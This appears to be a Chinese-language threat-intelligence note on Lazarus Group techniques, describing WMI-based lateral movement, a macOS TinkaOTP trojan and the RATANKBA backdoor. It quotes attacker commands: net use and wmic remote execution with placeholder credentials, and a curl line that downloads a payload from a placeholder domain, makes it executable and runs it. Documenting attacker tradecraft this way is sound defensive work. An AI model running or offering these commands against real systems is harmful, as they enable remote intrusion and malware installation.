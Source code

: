 # Lazarus Group

## 特征

1. 横向移动时会使用net use \\[IP地址]\IPC$ “[密码]” /u:”[用户名]” > $temp\~tmp5936t.tmp 2>&1″命令与远程主机建立网络连接，然后会使用WMI将恶意软件复制到远程主机.

```bash
wmic.exe /node:[IP地址] /user:”[用户名]” /password:”[密码]” PROCESS CALL CREATE “cmd.exe /c $appdata\Adobe\adobe.bat“
wmic.exe /node:[IP地址] /user:”[用户名]” /password:”[密码]” PROCESS CALL CREATE “cmd /c sc queryex helpsvc > $temp\tmp001.dat“
```

2. 针对MacOS系统的TinkaOTP木马两个变体都是伪装成.nib文件的Mach-O二进制文件，其中第二个版本则没有携带payload，而是将其C2地址嵌入到TinkaOTP包的主要执行文件中，通过命令：curl -k -o ~/Library/.mina https://域名/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev/null 2>&1，下载Payload.
而后，TinkaOTP木马通过/LaunchAgents/com.aex-loop.agent.plist和/Library/LaunchDaemons/com.aex-loop.agent.plist来维持持久.

3. RATANKBA后门会使用WMI收集受感染主机的运行进程、命令行、会话ID信息将其发送到C2服务器.

```bash
"C:\Windows\system32\cmd.exe" /c "wmic process get processid,commandline,sessionid | findstr SysWOW"
"C:\Windows\system32\cmd.exe" /c "wmic process get processid,commandline,sessionid | findstr x86"
//显示运行进程、命令行、会话ID
```
